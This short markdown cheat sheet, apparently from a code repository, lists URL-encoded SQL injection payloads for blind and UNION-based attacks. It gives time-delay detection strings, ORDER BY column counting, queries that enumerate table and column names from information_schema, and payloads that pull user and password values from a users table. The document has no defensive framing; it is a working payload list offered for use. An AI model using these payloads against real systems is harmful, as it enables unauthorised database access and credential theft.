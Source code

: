 SQL Injection BLIND
===================

Detection
---------
```sql
'+and+sleep(5)--%20
'+AND+BENCHMARK(100,SHA1(1337))--%20
'+AND+(SELECT+4057+FROM+(SELECT(SLEEP(5)))rYrD)--%20
```

Find Number of Columns
----------------------
```sql
# Monitor Responses for Differences. 
# Order by "1" should show a valid response, increase value until a different response is returned. 
'+order+by+1--%20
'+order+by+1000--%20
```

Get Table Names
------------
```sql
'+union+all+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()--%20
```

Get Column Names
----------------
```sql
1'+union+all+select+1,group_concat(column_name)+from+information_schema.columns+where+table_schema=database()--%20
```

Get Data from Columns
---------------------
```sql
'+union+all+select+1,group_concat(<columnName1>,<columnName2)+from+users--%20
'+union+all+select+1,group_concat(user,password)+from+users--%20
```
